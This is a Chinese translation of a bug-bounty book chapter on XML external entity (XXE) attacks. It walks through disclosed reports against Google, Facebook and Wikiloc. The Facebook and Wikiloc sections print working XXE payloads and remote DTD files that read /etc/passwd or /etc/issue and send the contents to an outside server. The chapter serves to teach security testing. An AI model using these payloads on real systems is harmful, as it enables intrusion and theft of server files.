



> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 示例

### 1\. Google 的读取访问

难度：中

URL：`google.com/gadgets/directory?synd=toolbar`

报告链接：`https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers`

报告日期：2014.4

奖金：$10000

描述：

了解 XML 以及外部实体之后，这个漏洞实际上就非常直接了。Google 的工具栏按钮允许开发者定义它们自己的按钮，通过上传包含特定元数据的 XML 文件。

但是，根据 Detectify 小组，通过上传带有`!ENTITY`，指向外部文件的 XML 文件，Google 解析了该文件，并渲染了内容。因此，小组使用了 XXE 漏洞来渲染服务器的`/etc/passwd`文件。游戏结束。



Google 内部文件的 Detectify 截图

> 重要结论
> 
> 大公司甚至都存在漏洞。虽然这个报告是两年之前了，它仍然是一个大公司如何犯错的极好的例子。所需的 XML 可以轻易上传到站点，站点使用了 XML 解析器。但是，有时站点不会产生响应，所以你需要测试来自 OWASP 速查表的其它输入。

### 2\. Facebook 单词 XXE

难度：难

URL：`facebook.com/careers`

报告链接：`http://www.attack-secure.com/blog/hacked-facebook-word-document`

报告日期：2014.4

奖金：$6300

描述：

这个 XXE 有一些区别，并且比第一个例子更有挑战，因为它涉及到远程调用服务器，就像我们在描述中讨论的那样。

2013 年末，Facebook 修补了一个 XXE 漏洞，它可能会升级为远程代码执行漏洞，因为`/etc/passwd`文件的内容是可访问的。奖金约为$30000。

因此，在 Mohamed 于 2014 年 4 月挑战自己来渗透 Facebook 的时候，它不认为 XXE 可能存在，直到他发现它们的职位页面允许用户上传`.docx`文件，它可以包含 XML。对于那些不知道的人，`.docx`文件只是个 XML 文件的压缩包。所以，根据 Mohames，它创建了一个`.docx`文件，并使用 7zip 打开它来提取内容，并将下面的载荷插入了一个 XML 文件中。

```
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd"> 
%dtd; 
%send; 
]]>
```

你会想到，在解析的时候，如果受害者开启了外部实体，XML 解析器会调用远程主机。要注意`!ENTITY`定义中和下面使用了`%`。这是因为这些占位符用在 DTD 自身中。在收到请求调用之后，远程服务器会发送回 DTD 文件，像这样：

```
<!ENTITY send SYSTEM 'http://197.37.102.90/?%26file;'>"
```

所以，回到文件中的载荷：

1.  解析器会将`%dtd;`替换为获取远程 DTD 文件的调用。

2， 解析器会将`%send;`替换为服务器的远程调用，但是`%file;`会替换为`file:///etc/passwd`的内容。

所以，Mohamed 使用 Python 和`SimpleHTTPServer`开启了一台本地服务器，并等待接收：



Facebook 远程调用的攻击截图

在报告之后，Facebook 发送了回复，拒绝了这个报告，并说它们不能重现它，并请求内容的视频验证。在交换一些信息之后，Facebook 提到招聘人员可能打开了文件，它会发送任意请求。Facebook 自傲组做了一些深入的挖掘，并给予了奖金，发送了一个邮件，解释了这个 XXE 的影响比 2013 年初的要小，但是仍然是一个有效的利用，这里是这个信息。



Facebook 官方回复

> 重要结论
> 
> 这里有一些重要结论。XML 文件以不同形式和大小出现。要留意接受`.docx`、`.xlsx`、`.pptx`，以及其它的站点。向我之前提到过的那样，有时候你不会直接从 XXE 收到响应，这个示例展示了如何建立服务器来接受请求，它展示了 XXE。
> 
> 此外，像我们的例子中那样，有时报告一开始会被拒绝。拥有信息和耐心和你报告的公司周旋非常重要。尊重他们的决策，同时也解释为什么这可能是个漏洞。

### 3\. Wikiloc XXE

难度：高

URL：`wikiloc.com`

报告链接：`http://www.davidsopas.com/wikiloc-xxe-vulnerability`

报告日期：2015.10

奖金：Swag

描述：

根据他们的站定，Wikiloc 是个用于发现和分享最佳户外远足、骑车以及许多其他运动记录的地方。有趣的是，他们也让用户通过 XML 文件上传他们自己的记录，这就对例如 David Soaps 之类的骑手非常有吸引力了。

基于他们的 Write Up，David 注册了 Wikiloc，并注意到了 XML 上传点，决定测试它有没有 XXE 漏洞。最开始，它从站点下载了文件来判断 XML 结构，这里是一个`.gpx`文件，并插入了`*<!DOCTYPE foo [<!ENTITY xxe SYSTEM “http://www.davidsopas.com/XXE” > ]>;`。

之后它调用了`.gpx`文件中 13 行的记录名称中的实体。

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://www.davidsopas.com/XXE" > ]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk>
<name>&xxe;</name>
<trkseg> 
<trkpt lat="40.737758000" lon="-8.093361000"> 
<ele>178.000000</ele> 
<time>2009-01-10T14:18:10Z</time> 
(...)
```

这产生了发往服务器的 HTTP GET 请求，`GET 144.76.194.66 /XXE/ 10/29/15 1:02PM Java/1.7.0_51`。这有两个原因值得注意，首先，通过使用一个概念调用的简单证明，David 能够确认服务器求解了它插入的 XML 并且进行了外部调用。其次，David 使用现存的 XML 文件，以便时它的内容满足站点所预期的结构。虽然它没有讨论这个，调用它的服务器可能并不是必须的，如果它能够服务`/etc/passwd`文件，并将内容渲染在`<name>`元素中。

在确认 Wikiloc 会生成外部 HTTP 请求后，唯一的疑问就是，是否它能够读取本地文件。所以，它修改了注入的 XML，来让 Wikiloc 向他发送它们的`/etc/passwd`文件内容。

```
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/issue"> 
<!ENTITY % dtd SYSTEM "http://www.davidsopas.com/poc/xxe.dtd"> 
%dtd;]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk> 
<name>&send;</name> 
(...)
```

这看起来十分熟悉。这里他使用了两个实体，它们都在 DTD 中求值，所以它们使用`%`定义。`&send;`在`<name>`标签中的的引用实际上由返回的`xxe.dtd`文件定义，他的服务器将其发送回 Wikiloc。这里是这个文件：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.davidsopas.com/XXE?%file;'>"> 
%all; 
```

要注意`%all;`实际上定义了`!ENTITY send`，我们刚刚在`<name>`标签中注意到它。这里是求值的过程：

1.  Wikiloc 解析了 XML，并将`%dtd;`求值为 David 的服务器的外部调用。
2.  David 的服务器向 Wikiloc 返回了`xxe.dtd`文件。
3.  Wikiloc 解析了收到的 DTD文件，它触发了`%all;`的调用。
4.  当`%all;`求值时，它定义了`&send;`，它包含`%file;`实体的调用。
5.  `%file;`在 URL 值中被替换为`/etc/passwd`文件的内容。
6.  Wikiloc 解析了 XML 文件，发现了`&send;`实体，它求值为 David 服务器的远程调用，带有`/etc/passwd`的内容，作为 URL 中的参数。

用他自己的话来说，游戏结束了。

> 重要结论
> 
> 像之前提到的那样，这是一个不错的例子，展示了如何使用来自站点的 XML 模板，来组装你自己的 XML 实体，便于让目标合理地解析文件。这里，Wikiloc 期待`.gpx`文件，而 David 保留了该结构，在预期标签中插入了他自己的 XML 实体，也就是`<name>`标签。此外，观察如何处理恶意 DTD 文件很有意思，并且可以用于随后让目标向你的 服务器发送 GET 请求，带有文件内容作为 URL 参数。

## 总结

XXE 表示一类有巨大潜力的有趣的攻击向量。有几种方式来完成，就像我们之前看到的那样，它能够让漏洞应用打印自己的`/etc/passwd`文件，以`/etc/passwd`文件来调用远程服务器，以及请求远程 DTD 文件，它让解析器来使用`/etc/passwd`文件调用服务器。

作为一个黑客，要留意文件上传，特别是那些接受一些 XML 类型的上传，应该始终测试它们是否存在 XXE 漏洞。